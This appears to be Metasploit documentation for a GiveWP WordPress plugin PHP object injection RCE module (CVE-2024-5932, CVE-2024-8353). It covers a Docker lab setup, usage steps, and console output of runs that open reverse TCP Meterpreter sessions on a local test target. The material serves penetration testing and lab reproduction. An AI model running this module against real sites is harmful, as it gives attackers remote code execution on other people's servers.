 ## Vulnerable Application

This Metasploit module exploits an unauthenticated PHP Object Injection vulnerability in the
GiveWP plugin for WordPress (versions <= 3.14.1).
The vulnerability is present in the 'give_title' parameter, allowing attackers to inject a crafted
PHP object leading to remote code execution (RCE) when combined with a suitable POP chain.

## Setup

1. **Docker Compose Setup**: Create the following `docker-compose.yml` file to set up a vulnerable WordPress environment:

```yaml
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060

  wordpress:
    image: wordpress:6.3.2
    ports:
      - "80:80"
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```
1. Run Docker: `docker compose up`
2. Access the WordPress instance at `http://127.0.0.1` and complete the installation process.
3. **Download and Install Vulnerable GiveWP Plugin**:
- Download the plugin: [GiveWP 3.16.1](https://downloads.wordpress.org/plugin/give.3.16.1.zip)
- Unzip the plugin and copy it to the Docker container:
```bash
docker compose cp give wordpress:/var/www/html/wp-content/plugins
```
- Access the WordPress instance at `http://localhost` and activate the GiveWP plugin via the admin dashboard.

4. **Create a Donation Form**:
- Navigate to the "Forms" section within the GiveWP plugin and click on "Add Form."
- Select any form.
- Configure the form as needed, then publish it.

*Note: Depending on the vulnerability you want to test, using an older version like 3.14.1 may also be applicable.*



## Options

No specific options need to be configured.

## Verification Steps

1. Start `msfconsole`.
2. Use the module with `use exploit/multi/http/wp_givewp_rce`.
3. Set `RHOSTS`, `RPORT`, and the necessary WordPress-specific options.
4. Run the exploit.
5. Gain a Meterpreter session.

## Scenarios

### GiveWP Plugin version: 3.14.1 (Dockerized WordPress Version 6.5.3)

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected GiveWP Plugin version: 3.14.1
[+] Vulnerable to both CVE-2024-5932 and CVE-2024-8353 (bypass).
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 45
[*] Using Form ID: 45 for exploitation.
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 5 opened (192.168.1.36:1337 -> 172.18.0.3:45656) at 2024-10-02 19:51:31 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### GiveWP Plugin version: 3.16.1 (Dockerized WordPress Version 6.5.3)

```bash
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected GiveWP Plugin version: 3.16.1
[+] Vulnerable to CVE-2024-8353 (bypass).
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 38
[*] Using Form ID: 38 for exploitation.
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 4 opened (192.168.1.36:1337 -> 172.18.0.3:49380) at 2024-10-02 19:49:39 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
